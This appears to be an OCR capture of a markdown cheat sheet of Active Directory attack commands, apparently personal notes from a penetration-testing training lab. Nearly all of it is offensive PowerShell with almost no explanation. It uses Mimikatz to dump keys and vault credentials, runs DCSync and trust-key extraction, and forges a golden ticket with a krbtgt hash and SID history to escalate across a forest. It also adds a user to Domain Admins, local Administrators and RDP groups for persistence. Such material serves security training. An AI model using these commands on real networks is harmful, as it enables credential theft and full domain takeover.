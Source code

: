 ## 5. Domain Admin Persistence
```powershell
Invoke-Mimikatz

# note the rc4
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```

## Extras 
```powershell
# Once you are DA add user to DA group
Invoke-Command -ScriptBlock {net group "DOMAIN ADMINS" student21 /domain /add} -ComputerName dcorp-dc.dollarcorp.moneycorp.local

C:> net localgroup Administrators student21 /add 
C:> net localgroup "Remote Desktop Users" student21 /add

https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

```

## Forest Priv Esc
```powershell

Invoke-Mimikatz

Invoke-Mimikatz -Command '"lsadump::trust /patch"'

Invoke-Mimikatz -Command '"lsadump::dcsync /domain:DOLLARCORP.MONEYCORP.LOCAL /all /csv"'

Invoke-Mimikatz -Command '"kerberos::golden /user:student21 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ptt"'

gwmi -Class win32_computersystem -ComputerName mcorp-dc.moneycorp.local


```


## Query
```powershell
net localgroup administrators
# add to localgroup admins
net localgroup Administrators student21 /add 

# add to RDP group
net localgroup "Remote Desktop Users" student21 /add

# Add to DA 
net group "DOMAIN ADMINS" student21 /domain /add

# Checking First Degree Object Controls
# if the user is part of a group example sql admins and has generic all access we can do the following
net group "SQLMANAGERS" examAd /domain /add
```